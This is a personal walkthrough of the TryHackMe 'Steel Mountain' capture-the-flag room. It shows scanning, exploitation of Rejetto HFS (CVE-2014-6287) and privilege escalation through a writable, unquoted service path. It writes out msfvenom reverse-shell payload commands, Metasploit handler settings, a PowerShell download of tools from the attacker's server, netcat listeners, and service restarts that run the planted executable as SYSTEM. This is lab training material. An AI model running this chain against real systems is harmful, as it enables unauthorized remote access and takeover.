 # This is a writeup for the CTF: Steel Mountain, windows from TryHackMe.   
Name: Alexander Spiesberger    
Date: 26/01/2021   
Contact: alex.spiesberger@gmail.com  

---
## *This is a bit chaotic and some things may be wrong because I did the writeup way later than the CTF*   
---

![CTF](assets/1.png)

So, as the list times, we start with scanning with nmap, gobuster and nikto.  

![Scan](assets/2.png)

During the scan we can go check out the site, we can see the logo with a picture of their employee of the month.  
When inspecting the page we can see the picture source code, and we can aassume that the name in the picture is the employee.  
We can with this, respond to the first question: **Who is the employee of the month?**
   
We can then take a look at the finished nmap scan.  
We can find another web server running and with this respond to the next question: **Scan the machine with nmap. What is the other port running a web server on?**

![other web server](assets/4.png)

We can directly also respond to the next question with a quick search: **Take a look at the other web server. What file server is running?**

![file server](assets/5.png)

And the CVE for the next question also:

![Search CVE](assets/6.png)

![CVE](assets/7.png)

We will now try to use metasploit:

![msfconsole](assets/8.png)

We can now put the options that we need and run it:

![run -j](assets/9.png)

Yay! It worked, now we just have to use it:

![use session](assets/10.png)

We can then answer the final question of the second task: **Use Metasploit to get an initial shell. What is the user flag?**

![flag](assets/11.png)

We then have to upload a tool to help us escalate privileges.  
I downloaded winPEAS and also accesschk:

![winPEAS](assets/12.png)
![acesschk](assets/13.png)

We can then see that the service "AdvancedSystemCareService9" is exploitable, just use msfvenom: 

![msfvenom](assets/14.png)

You name it Advanced.exe so when it will run, the service normally sees "dvancedA" and there is a space before "SystemCare" So we will put the msfvenom output that we name "Advanced.exe" in this file, we just download it after starting a server with:

![loadpowershell](assets/15.png)

![downlaod](assets/16.png)

Now you have to start and stop the service with:
sc start <service>
sc stop <service>
the service here is "AdvancedSystemCareService9"

![startstop](assets/17.png)

Don't forget to put a nc listener before restarting the service and then let the magic happen:

![magic](assets/18.png)   

---

## To do it like in the exercie:     

Escalations:
We download the tools to see how we can escalate, and in metasploit we use it: upload:   
→ path to file on your machine.  
→ We then load powershell -> load powershell -> powershell_shell -> . .\PowerUp.ps1 -> Invoke-AllChecks  
→ We can do it with winPEAS and accesschk, can be better.  
→ We see the services and we see. can restart = True on  “AdvancedSystemCareService9”  
→ The application is also writeable to, so we can pretty much do what we want.  

We can then to have a listener for our reverse shell use multi/handler on metasploit, we set the payload to:
→ set payload windows/shell/reverse_tcp
→ set LHOST <IP>
→ set LPORT <PORT>
→ exploit -j 
→ Go back to backgrounded session (meterpreter)

→ We create our msfvenom:   
→ "msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f exe -o ASCService.exe   
→ (-p = platform. -e = encrypt, -o = output as)   
→ Upload it in IObit -> upload ASCService.exe    
→ Now we need to stop the service, copy the malicious program into  Advanced SystemCare, overwrite current ACSService.exe and restart the service, and we should get our multi/handler that is running     
→ so we go into shell -> sc stop <ServiceName> -> This enables us to modify the path     
→ COPY ASCService.exe “Advanced SystemCare” -> Overwrite -> YES    
→ sc start <ServiceName> -> We start service back up and it will run our malicious program and call our listener on the other side -> session 2 has opened (multi/handler)     
→ we background our meterpreter and see sessions -> We have a new reverse shell and hop to it    
→ And we are now NT Authoritysystem    
→ cd “C:\Windows\Administrator\Desktop” -> dir -> We see root.txt 





# MANUAL:

launching nmap: nmap -sC -sV -A -p- -oN initial.nmap $RHOST
gobuster: gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$RHOST -x php,html,txt,js,css,cgi,sh,py

Found rejetto vuln -> CVE2014-6287
DL nc binary: https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe

In the Exploit file change the ip + local port I did (4444)

![changeIPPORT](assets/19.png)
then launch a server (python3 -m http.server 80) Here on port 80.

then launch 2 times the exploit: python <exploit> <IP> <PORT(8080)>

![2timeslaunch](assets/20.png)

First it will pull the binary, then launch it again with a listener (nc -lvnp 4444) and you now have a remote shell.
We now pull winPEAS with powershell:
launch server port 80 then pull with powershell:
powershell -c wget "http://<IP>:80/winPEASany.exe" -outfile "winPEAS.exe"

we now can run it -> winPEAS.exe

![run winpeas](assets/21.png)

for the question: powershell -c get-service

We now need to exploit like previously with msfvenom, we could build it with pentest.ws and taking info with 
"powershell -c systeminfo"
But I will here take the previous msfvenom done with metasploit.
If you want to do it with pentest.ws:
payload:windows/reverse_tcp
LHOST: add your vpn IP
LPORT: Port you want to listen on (I put 443)
encoder: x86/shikata_ga_nai
extension: -f exe
output file: -o ASCService.exe

Then it is like before, pull it, in the IObit folder, name it Advanced.exe and stop/start the service with a netcat listening:

![download](assets/16.png)

![start/stop service](assets/17.png)

hope I could help you even if this one is chaotic.    
contact: alex.spiesberger@gmail.com




